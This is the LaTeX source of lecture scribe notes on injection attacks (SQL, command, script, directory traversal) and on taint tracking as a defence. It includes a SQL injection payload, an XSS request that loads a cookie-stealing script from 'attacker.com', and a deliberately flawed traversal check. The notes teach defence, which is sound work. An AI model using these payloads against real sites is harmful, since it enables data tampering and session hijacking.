
% !TEX TS-program = pdflatex
% !TEX encoding = UTF-8 Unicode

% This is a simple template for a LaTeX document using the "article" class.
% See "book", "report", "letter" for other types of document.

\documentclass[11pt]{article} % use larger type; default would be 10pt

\usepackage[utf8]{inputenc} % set input encoding (not needed with XeLaTeX)

%%% Examples of Article customizations
% These packages are optional, depending whether you want the features they provide.
% See the LaTeX Companion or other references for full information.

%%% PAGE DIMENSIONS
\usepackage{geometry} % to change the page dimensions
\geometry{a4paper} % or letterpaper (US) or a5paper or....
% \geometry{margin=2in} % for example, change the margins to 2 inches all round
% \geometry{landscape} % set up the page for landscape
%   read geometry.pdf for detailed page layout information

\usepackage{graphicx} % support the \includegraphics command and options

% \usepackage[parfill]{parskip} % Activate to begin paragraphs with an empty line rather than an indent

%%% PACKAGES
\usepackage{booktabs} % for much better looking tables
\usepackage{array} % for better arrays (eg matrices) in maths
\usepackage{paralist} % very flexible & customisable lists (eg. enumerate/itemize, etc.)
\usepackage{verbatim} % adds environment for commenting out blocks of text & for better verbatim
\usepackage{subfig} % make it possible to include more than one captioned figure/table in a single float
% These packages are all incorporated in the memoir class to one degree or another...

%%% HEADERS & FOOTERS
\usepackage{fancyhdr} % This should be set AFTER setting up the page geometry
\pagestyle{fancy} % options: empty , plain , fancy
\renewcommand{\headrulewidth}{0pt} % customise the layout...
\lhead{}\chead{}\rhead{}
\lfoot{}\cfoot{\thepage}\rfoot{}

%%% SECTION TITLE APPEARANCE
\usepackage{sectsty}
\allsectionsfont{\sffamily\mdseries\upshape} % (See the fntguide.pdf for font help)
% (This matches ConTeXt defaults)

%%% ToC (table of contents) APPEARANCE
\usepackage[nottoc,notlof,notlot]{tocbibind} % Put the bibliography in the ToC
\usepackage[titles,subfigure]{tocloft} % Alter the style of the Table of Contents
\renewcommand{\cftsecfont}{\rmfamily\mdseries\upshape}
\renewcommand{\cftsecpagefont}{\rmfamily\mdseries\upshape} % No bold!

\makeatletter
   \newcommand\figcaption{\def\@captype{figure}\caption}
   \newcommand\tabcaption{\def\@captype{table}\caption}
\makeatother
%%% END Article customizations

%%% The "real" document content comes below...

\title{CSE 509 Lecture 19}

\author{Prof. R. Sekar, Scribe:Arun Rathakrishnan}
%\date{} % Activate to display a given date or no date (if empty),
         % otherwise the current date is printed 

\begin{document}
\maketitle
\section {Introduction}
Injection attacks typically involve subversion of access privileges. The attacker
who can provide only an input to the system, manages to trick the system into
executing malicious code. Though careful programming techniques can prevent some
of the attacks, it is not always the case in practice.
\subsection {SQL Injection}
Injecting SQL statements in place of data provided as input, enables the
attacker to execute arbitrary SQL queries on the database server.
\begin {verbatim}
$cmd = "SELECT price FROM products WHERE name = ’" . $name . "’";
\end {verbatim}
The name is usually read from the HTTP request, which is typically passed from
a user input from a form. The user can input the below instead of a name and
can set prices in products table to $0$.
\begin {verbatim}
name = ’xyz’; UPDATE products SET price = 0 WHERE true
\end {verbatim}
This can be prevented by scanning the user input and looking for malicious
characters like ';'.
\subsection {Command Injection}
Command Injection is similar to SQL Injection except that the attacker provides
shell script commands in an input field, which then causes arbitrary code to
be executed on the server side.
\subsection {Script Injection}
Browser enforces Same Origin Policy which prevents resources of different origins
from accessing each other. This means that an advertisement displayed in an
iframe can not steal information of banking details from your email in another
iframe. Consider a banking website which allows user to locate the nearest
ATM by zip code passed as input. \\
\begin {verbatim}
HTTP Request : http://banksite.com/findatm?zip=11790
HTTP Response: <html>No atm found at 11790</html>
\end {verbatim}
But an attacker can inject scripts in user input, which tricks the browser into
believing that the malicious script has same origin as the banking website and
can send cookie informations to the attacker's site. Using the cookies, the 
attacker may hijack the user's session.
\begin {verbatim}
HTTP Request : http://banksite.com/findatm?zip=<script src="http://attacker.com/
steal_cookie.js"></script>
HTTP Response: <html>No atm found at <script src="http://attacker.com/steal_cookie.js">
</script></html>
\end {verbatim}
\subsection {Directory Traversal}
Static web-pages are usually served from a document root directory, which contains
files that can be addressed by a directory path from the root. Directories
which are not subdirectories of the document root may contain sensitive information
like password files, which must not be accessible to users. But an attacker can
traverse to higher level directories using $'..'$ in the path to move to a parent
directory. A careful developer may check for $'..'$ character in the input string
for the server, but an attacker can encode the URL causing the $'..'$ to be
undetected until decoded. In that case, the below code snippet will fail to
discover directory traversal attack.
\begin {verbatim}
      check_access(char *file){
          if((strstr(file, "/cgi-bin/" == file)) &&
             (strstr(file, "/../") == NULL)){
               send_http_response(url_decode(file));
          }
          else reject();
      }
\end {verbatim}
\section {Taint Tracking}
Taint tracking and policy based control depends on the following.
\begin {itemize} \itemsep -2pt
\item How much of program's behaviour is controlled by user action? User provides
inputs determine and control the execution of the program.
\item How reasonable is the control exerted by the user and how to prevent unreasonable
control? User can provide login credentials as input, but can not view login
credentials of other users.
\end {itemize}

To answer the first question, we need to track control flow by monitoring which
elements of the program are controlled by user input. Any variable that takes a
value as input from terminal or network is said to be tainted. Any system
provided value (like constants) is considered untainted. There taintedness 
represents the trustworthiness of the source producing the value in a variable.
We achieve this by fine-grained taint tracking. To answer the second question,
we need a policy in place to ensure that all tainted elements do not exert undue
control.

\subsection {Fine-grained Taint Tracking}
A bit array tag map can be used to track if each byte of memory is tainted. The
tag map is indexed by byte address and can have one or more bits indicating
whether the memory location is tainted. Usually a single bit represents the taint
value, or in other words whether the variable depends on user input. $TAG(a)$ 
tells whether byte at location $a$ in the virtual memory is tainted. We can use 
other bits to represent the degree of taintedness based on the trustworthiness
of the source.
\begin {verbatim}
x = y+z -> TAG(&x) = TAG(&y) || TAG(&z)
x = *p  -> TAG(&x) = TAG(p) 
\end {verbatim}
\\ Note that only address of a variable is tracked for taintedness.

\subsection {Enabling Taint tracking}
\begin {itemize} \itemsep -2pt
\item Source transformation to track information flow at runtime. Source transformations
are preferred to binary transformations, since the compiler can optimize the
 code leading to reduced overhead in the former case.
\item Propagation of data as well as their taint tracking information.
\end {itemize}
\begin {center}

\includegraphics [width=240px,height=265px]{img/f1.png}\\
\end {center}
\begin {center}

\includegraphics [width=260px,height=250px]{img/f2.png}\\
\end {center}

\subsection {Effectiveness}
\begin {itemize} \itemsep -2pt
\item Taint tracking can track control flow by tracking explicit assignments and
source transformations. With suitable policies they can check at runtime if
user provided input can cause memory errors or injection attacks and prevent
them.
\item Source transformations can be optimized by a compiler which can reduce
the overhead.
\end {itemize}
\section{Limitations}
\subsection {Efficiency}
The source transformation results in doubling the number of assignment statements,
which leads to an increase in runtime overhead.  For binaries this problem is
compounded as optimizations are not easy to achieve. As a result the runtime
overhead is 4 to 40 times the uninstrumented code's runtime.

\subsection {Accuracy}
Untransformed library code can always lead to memory errors. The other issue is
due to the presence of implicit flows. The data dependence can be represented by,
\begin {itemize} \itemsep -2pt
\item Explicit flows: explicit assignment user input of variables.
\item Implicit flows: assignment of values to variables based on user input.
\end {itemize}
Consider the code snippet below.
\begin {verbatim}
      y = 1;
      if( x == 0 )
          y = 0;
\end {verbatim}
If $x$ is tainted, the value of $y$ depends on $x$ and hence $y$ is tainted too.
But since the transformation rules will not mark $y$ as tainted due to the
assignment to the constant value $0$. We can modify the conditional transformation
so that the taint information is checked based on the taintedness of variables
in the conditional expression.
\begin {verbatim}
      y = 1;
      if( E ){
           y = 0;
           Tag(y) = Tag(E);
      }
\end {verbatim}

However, this transformation fails to achieve correct taint tracking, when value
of $x$ is $1$. Semantics of programming language may not capture implicit flows
in cases like the above, which makes simple transformations of taint tracking
approach incomplete.\\

Even if implicit flows can be tracked, examples like the below will cause the
analysis to be diluted.
\begin {verbatim}
      if(!valid(x)){
           S1;
           log an error message;
      }
\end {verbatim}

How to track implicit flows, without diluting the analysis is still an open
problem.

\section {References}
Wei Xu, Sandeep Bhatkar, R. Sekar, "Taint-Enhanced Policy Enforcement:
A Practical Approach to Defeat a Wide Range of Attacks".

\section {Questions}
\begin {enumerate} \itemsep -2pt
\item To counter implicit flows, are all assignments inside a if block marked as
tainted?
\item During implict flow tracking, the taintedness between trust and what
disappears?
\item Should taint-variables be pushed to tain Tag table periodically? If so when?
\item How is binary instrumentation possible? Why is it challenging?\\
May be because, we can not use local taint variables, that we get by source
transformation, leading to poor performance.
\item If binary instrumentation is possible, why can not we do taint tracking for
native libraries? Don't we have the binary code? What is the approach followed
by memory error protection systems, when it came to binary code?
\item What does the last transformation ($v = (*f)(E)$) mean? Can $v$ be called
without supplying $E$ as an argument?
\end {enumerate}
\end{document}
